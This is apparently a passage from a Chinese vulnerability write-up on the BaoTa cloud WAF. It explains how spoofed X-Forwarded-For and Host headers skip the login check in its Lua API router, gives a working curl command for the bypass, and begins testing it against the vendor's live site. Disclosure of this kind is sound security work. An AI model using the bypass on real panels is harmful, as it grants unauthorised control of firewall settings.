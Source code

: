 ```

    if ngx.var.uri == "/reset_customize_cc" then
      Public.return_message(200, uv0.reset_customize_cc())
    end

    if ngx.var.uri == "/clear_speed_countsize" then
      Public.return_message(200, uv0.clear_speed_countsize())
    end
  end
end
```  
  
上面这段代码位于   
/cloud_waf/nginx/conf.d/waf/public/waf_route.lua  
 文件中，源文件是   
luajit  
 编译后的内容，反编译一下即可看到源码。  
  
看代码最开端的 if 语句，只要满足 ip 是   
127.0.0.1  
 ，域名是   
127.0.0.251  
 这两个条件就能在不用登录的情况下访问下面的 API 。  
  
话说这是临时工写的代码吧，对于宝塔的配置来说，要满足这两个条件很难吗？  
  
配置   
x-forwarded-for  
 头为   
127.0.0.1  
 即可满足 ip 是   
127.0.0.1  
 的条件  
  
 配置   
host  
 头为   
127.0.0.251  
 即可满足域名是   
127.0.0.251  
 的条件  
  
 提供一条 curl 参数供大家参考  
```
curl 'http://宝塔地址/API'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```  
  
到此漏洞原理就讲完了  
  
### 03 测试漏洞  
  
我们访问宝塔官方网站做个测试  
  
**get_btwaf_drop_ip**  
  
